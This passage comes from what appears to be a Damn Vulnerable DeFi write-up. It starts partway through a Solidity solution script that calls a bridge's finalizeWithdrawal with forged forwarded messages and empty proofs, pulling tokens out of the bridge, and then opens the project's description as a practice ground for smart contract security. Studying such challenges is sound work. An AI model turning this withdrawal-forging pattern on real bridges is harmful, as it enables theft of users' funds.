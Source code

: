   ```solidity
                ( 
                    0xea475d60c118d7058beF4bDd9c32bA51139a74e0,
                    999000 ether
                )
            )
        )
        ),
        proof: new bytes32[](0)
    });

    l1Gateway.finalizeWithdrawal({
        nonce: 3,
        l2Sender: 0x87EAD3e78Ef9E26de92083b75a3b037aC2883E16,
        target: 0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5,
        timestamp: 1718787127,
        message: abi.encodeCall( L1Forwarder.forwardMessage,
        (
            3,
            0x671d2ba5bF3C160A568Aae17dE26B51390d6BD5b, 
            0x9c52B2C4A89E2BE37972d18dA937cbAd8AA8bd50, 
            abi.encodeCall( 
                TokenBridge.executeTokenWithdrawal,
                ( 
                    0x671d2ba5bF3C160A568Aae17dE26B51390d6BD5b,
                    10 ether
                )
            )
        )
        ),
        proof: new bytes32[](0)
    });

    token.transfer(address(l1TokenBridge), token.balanceOf(player));
}

  ```
</details>




---
# Damn Vulnerable DeFi

Damn Vulnerable DeFi is _the_ smart contract security playground for developers, security researchers and educators.

Perhaps the most sophisticated vulnerable set of Solidity smart contracts ever witnessed, it features flashloans, price oracles, governance, NFTs, DEXs, lending pools, smart contract wallets, timelocks, vaults, meta-transactions, token distributions, upgradeability and more.

Use Damn Vulnerable DeFi to:
